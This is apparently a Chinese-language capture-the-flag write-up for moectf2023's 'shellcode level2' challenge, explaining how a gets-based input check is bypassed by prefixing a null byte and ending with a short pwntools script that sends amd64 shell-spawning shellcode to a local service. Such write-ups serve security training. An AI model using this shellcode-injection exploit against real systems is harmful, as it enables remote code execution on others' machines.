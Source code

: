 ```yaml
---
title: moectf2023 - shellcode level2
date: 2023/9/24 12:00:00
tags:
    - noob
excerpt: 通过分析64位程序，利用gets输入shellcode并在首字节放置`\0`实现远程代码执行。
---
```


## 文件分析

下载`shellcode_level2`, NX off, PIE on, Canary on, RELRO full  
ghidra分析为64位程序

## 解题思路

该程序用gets读入100字节，shellcode随便打  
程序运行一个变量+1对应的地址，且该变量首字节不为0则全部置0  
即先放一个`\0`再放shellcode即可

## EXPLOIT

```python
from pwn import *
shc = asm(shellcraft.amd64.linux.sh(), arch='amd64')
sh = remote("localhost", 45341)
sh.sendline(b'\0' + shc)
sh.interactive()
```

Done.

